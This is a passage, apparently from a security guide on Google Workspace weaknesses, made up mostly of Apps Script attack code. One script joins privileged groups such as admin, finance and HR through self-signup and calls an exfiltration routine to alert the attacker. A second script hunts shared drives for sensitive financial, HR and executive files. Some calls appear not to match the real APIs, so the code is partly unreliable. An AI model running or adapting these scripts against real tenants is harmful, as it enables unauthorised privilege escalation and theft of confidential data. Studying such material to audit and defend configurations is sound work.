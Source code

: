 **2. Exploiting Group Membership Controls:**

When an organization uses dynamic groups based on OUs but fails to properly restrict group membership controls:

```javascript
// Example exploitation of group membership via Google Apps Script
// Assumes attacker has basic user permissions but found a group with self-signup enabled

function joinPrivilegedGroup() {
  // Identify target group from directory
  const groups = GroupsApp.getGroups();
  let targetGroup = null;
  
  // Look for interesting groups with self-signup enabled
  for (let i = 0; i < groups.length; i++) {
    const group = groups[i];
    const groupName = group.getName();
    
    // Target high-value groups that might have improper controls
    if (groupName.includes('admin') || 
        groupName.includes('finance') || 
        groupName.includes('hr') || 
        groupName.includes('executive')) {
      
      try {
        // Attempt to join the group
        group.addMember(Session.getActiveUser().getEmail());
        console.log(`Successfully joined group: ${groupName}`);
        targetGroup = group;
        break;
      } catch (e) {
        console.log(`Failed to join group: ${groupName} - ${e.message}`);
      }
    }
  }
  
  if (targetGroup) {
    // If successful, notify the attacker
    exfiltrateData(`Joined privileged group: ${targetGroup.getName()}`);
  }
}
```

**3. Exploiting OU Boundary Crossing:**

When OUs have inconsistent drive sharing permissions:

```javascript
// Exploit shared drive access inconsistencies between OUs
function identifyDriveLeakagePaths() {
  // Get all accessible shared drives
  const drives = DriveApp.getSharedDrives();
  let vulnerableDrives = [];
  
  for (let i = 0; i < drives.length; i++) {
    const drive = drives[i];
    const files = drive.getFiles();
    
    while (files.hasNext()) {
      const file = files.next();
      // Look for sensitive content indicators
      if (hasFinancialContent(file) || hasHRContent(file) || hasExecutiveContent(file)) {
        vulnerableDrives.push({
          driveName: drive.getName(),
          driveId: drive.getId(),
```